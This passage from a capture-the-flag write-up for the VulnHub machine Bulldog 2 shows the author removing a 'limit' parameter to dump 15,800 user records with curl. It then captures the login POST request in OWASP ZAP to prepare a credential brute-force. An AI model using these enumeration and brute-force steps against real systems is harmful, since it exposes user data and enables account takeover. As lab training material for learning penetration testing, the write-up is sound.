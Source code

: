 ![bulldog 3](./images/bulldog-2-3.png)

So i remove the "limit" parameter from the url and get a JSON with 15800 users:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-2]
└─$ curl "http://192.168.56.118/users/getUsers" > users.json
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  874k  100  874k    0     0  1722k      0 --:--:-- --:--:-- --:--:-- 1724k
```

After that I go to "/register", but there is a notice that reads:

```
Unfortunately we are not accepting registrations at this time due to security concerns. If needed, please reach out to a customer support representative to create a commercial account.
```

After that I go to "/login", put some dummy data just to test the POST request, since the most likely way to go about this machine is probably bruteforcing.
I input the dummy data, and on OWASP ZAP the following is shown for the request:

```
POST http://192.168.56.118/users/authenticate HTTP/1.1
Host: 192.168.56.118
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
content-type: application/json
Content-Length: 66
Origin: https://192.168.56.118
Connection: keep-alive
Referer: https://192.168.56.118/login
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
  "username": "USERNAME_DUMMY",
  "password": "PASSWORD_DUMMY"
}
```
